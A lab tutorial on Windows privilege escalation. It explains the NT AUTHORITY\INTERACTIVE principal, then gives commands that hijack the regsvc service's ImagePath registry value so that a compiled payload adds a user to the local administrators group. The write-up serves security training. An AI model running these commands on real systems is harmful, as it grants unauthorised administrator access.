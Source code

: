 
    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>



`NT AUTHORITY\INTERACTIVE` is a built-in security principal in Windows OS.&#x20;

It represents any user who is currently interactively logged on to the system, either locally at the console or through a remote desktop session. In other words, <mark style="color:red;">**it refers to users who are actively using the system**</mark>.

When a user logs in interactively, either by physically sitting at the computer or by connecting remotely, their authentication token is associated with the "NT AUTHORITY\INTERACTIVE" security principal. This allows the operating system to apply security policies and permissions specific to interactive logons.

This security principal is often used in access control lists (ACLs) and security settings to grant or deny permissions based on whether a user is logged on interactively or not. It helps differentiate between users who are actively using the system and those who might be running background processes or services.

### Exploitation

In this case, we have permission to add keys in the HKLM registry by using the `regsvc` service.

Information about each service on the system is stored in the registry. The `ImagePath`registry key typically contains the path of the driver’s image file. Hijacking this key with an arbitrary executable will have as a result the payload to run during service start.

1. Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

On Kali VM:

1.  Open windows\_service.c in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
2.  Exit the text editor and compile the file by typing the following in the command prompt: \
    `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`\
    (:warning: if this is not installed, use `sudo apt install gcc-mingw-w64`)\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
3. Copy the generated file x.exe, to the Windows VM.
4.  Place x.exe in `C:\Temp`\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
5.  To execute the file exe that we upload, we need to add its path in a new key in the registry by running the command:\
    `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`\
    \


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
